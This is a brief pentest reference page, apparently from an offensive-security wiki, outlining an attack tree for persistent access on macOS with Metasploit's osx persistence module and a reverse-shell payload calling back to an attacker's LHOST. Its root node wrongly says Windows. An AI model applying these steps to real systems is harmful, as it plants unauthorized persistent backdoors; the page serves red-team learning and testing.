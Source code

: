 # Maintaining access on macOS with Meterpreter

## Attack tree

```text
1 Maintain access on Windows
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/osx/local/persistence (AND)
    1.3 Set RUN_NOW to true (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show payloads (AND)
    1.6 Inject payload (such as osx/x86/shell_reverse_tcp) as a service with > set PAYLOAD [payload] (AND)
    1.7 Set LHOST and LPORT
    1.8 > exploit
    1.9 Copy the three commands given for cleanup later
```

## Notes

## Cheatsheets

* [Linux post exploitation enumeration](cheatsheets:docs/enumeration/linux-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)
